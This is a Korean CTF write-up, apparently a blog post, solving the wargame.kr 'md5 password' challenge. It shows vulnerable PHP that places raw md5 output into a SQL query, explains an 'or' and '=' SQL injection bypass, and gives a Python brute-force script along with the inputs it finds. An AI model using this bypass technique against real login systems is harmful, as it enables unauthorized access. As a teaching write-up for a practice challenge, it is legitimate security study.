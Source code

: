 ```yaml
---
title: (30) [wargame.kr] md5 password 문제풀이
date: 2024-02-05 +09:00
categories:
  - 웹해킹
tags:
  - [웹해킹, 드림핵]
---
```

{% raw %}
## 문제 설명
```
md5('value', true);
```

딸랑 이거 주고 끝입니다. 암튼 `md5`함수는 알겠는데 뒤에 있는 `true`는 뭐하는 거냐? 라고 하실 수 있는데, 원래는 16진수로 줄걸 raw binary로 줍니다. 즉 문자 형태로 준다는 거죠.  

이게 이 문제의 핵심입니다. 이제 문제를 봐 봅시다.
## 문제 풀이
사이트에 들어가면 패스워드 입력창이 하나 보입니다.
![](https://kyuyeop.github.io/assets/img/post/30/1.png)
소스코드는 아래와 같습니다.
```php
<?php
 if (isset($_GET['view-source'])) {
  show_source(__FILE__);
  exit();
 }

 if(isset($_POST['ps'])){
  sleep(1);
  include("./lib.php"); # include for $FLAG, $DB_username, $DB_password.
  $conn = mysqli_connect("localhost", $DB_username, $DB_password, "md5_password");
  /*
  
  create table admin_password(
   password char(64) unique
  );
  
  */

  $ps = mysqli_real_escape_string($conn, $_POST['ps']);
  $row=@mysqli_fetch_array(mysqli_query($conn, "select * from admin_password where password='".md5($ps,true)."'"));
  if(isset($row[0])){
   echo "hello admin!"."<br />";
   echo "FLAG : ".$FLAG;
  }else{
   echo "wrong..";
  }
 }
?>
<style>
 input[type=text] {width:200px;}
</style>
<br />
<br />
<form method="post" action="./index.php">
password : <input type="text" name="ps" /><input type="submit" value="login" />
</form>
<div><a href='?view-source'>get source</a></div>
```
아까 그 `md5`함수가 어디갔나 찾아보면
```php
mysqli_query($conn, "select * from admin_password where password='".md5($ps,true)."'")
```
이 sql 쿼리에 들어 있습니다. post로 받은 값을 해시로 만들어 검색하는 모양이군요.  
  
md5해시는 문제가 좀 있습니다. 해시함수가 너무 간단해서 해시로 만드는데 너무 짧은 시간이 걸립니다. 또한 길이도 길지 않고요.  
그래서 특정 조건을 만족하는 md5해시를 구하는데는 일반적인 컴퓨터로도 몇분 정도면 충분합니다. 물론 원문을 모두 복구할 수 있진 않습니다. 대신 몇글자만 일치하는 해시는 금방 찾습니다.(제 컴퓨터로는 초당 75만개 까지 가능하네요)  
  
우리가 찾아야 하는건 뭘까요?  
저 패스워드 부분이 참이 되도록 하려면 두가지 방법이 있습니다.  

첫번째는 우리가 익히 봐온
```
paswword='~~~' or 참#'
password='~~~' or '참'
```
같은 형태입니다. `or`로 password에 관련없이 참 조건을 만들어내는 겁니다. mysql은 문자열로 들어온 값의 첫 글자가 `1~9`사이 숫자면 참으로, 나머지는 모두 거짓으로 간주합니다.  
다만 `'or참#`을 만족시키는 해쉬를 찾기엔 조건이 너무 깁니다. 아무리 md5라도 조건 5글자나 조건을 거는건 너무 오랜 시간이 걸릴겁니다.  
  
다른 방법은 false injection이라는 겁니다.
```
paswword='~~~'='~~~'
```
저도 이건 모르고 있었는데 md5 해쉬중에 대표적인 녀석인가 보더군요. password='~~~'부분이 거짓일때 그걸 다른 거짓과 비교하는 방식인가 봅니다. 이게 가능하려면 약간의 제약 조건이 있습니다.
```
1.해쉬의 = 앞부분이 비밀번호이면 안됨
2.= 뒷부분이 1~9사이 숫자로 시작하면 안됨
```
그래봐야 위에 있던것과 비교하면 `'='`가 들어있는 것만 찾으면 되므로 더 빠르겠죠.  
  
그럼 어떤 걸 해쉬하면 `'='`이 포함되어 있는지만 알면 되겠군요. 파이썬으로 코드를 짜보겠습니다.
```python
from hashlib import md5

for i in range(10000000):
    hash = md5(str(i).encode()).digest()
    if b"'='" in hash:
        print(i, hash)
```
`0~9999999`까지 숫자를 문자로 바꿔서 `'='`이 들어있는지 검사 했습니다. 몇초 걸리지도 않습니다.  
그 결과는
```
1839431 b"\xc37\x90\xa5\xaf\xc4\xb1A@J\xbe'='\xaa\xa9"
2584670 b"\xdf\x8b\x12'='N/\xe6*{\xec\x18\x16\x931"
2632003 b"\x1c\x12(\xcc'='6\xfaQE\x84\x0e\x96\xed\x99"
2998869 b"\xfe\xb2'=':\xe9T\xea\xd6,p\xa7\x80\xf1\xe1"
4939073 b"u}t'Q'='\x14\xd9\xe2\x8e\xec.\xd8\x8a"
5263117 b"e'='\x80\xb0\xb4\xf6\x12\xd6M@KD\x06\xcb"
5273607 b"\xb7\x94a\x9f\x10d\xbe\xc6\x87\x04\xf4;\xac'='"
5872358 b"\x0eY\xb0T\xb3v\xbc\xe0+\xdd\xc6'='\xf5\xff"
7201387 b"V)'='\x0bf\xd6\x081d\xbd\xfa\x9b+\x16"
8930081 b"<4\nx'='\x81\xda\xbf\x8cg\xbc2\xad\x17"
9235566 b"\xee\x83\xe2'='\xd3\x99\xed0\xda\xe8\xa1\xfe\xfd\xeb"
```
이 중에 `'='`다음이 숫자인 것만 걸러서 쓰면 됩니다. `2632003`을 제외하면 다 가능합니다.  
  
그래서 `1839431`을 넣어보면
![](https://kyuyeop.github.io/assets/img/post/30/2.png)
flag가 나옵니다.  
  
만약 앞서 언급합 `2632003`을 넣어보면
![](https://kyuyeop.github.io/assets/img/post/30/3.png)
이렇게 틀렸다고 나오는걸 볼 수 있습니다.
{% endraw %}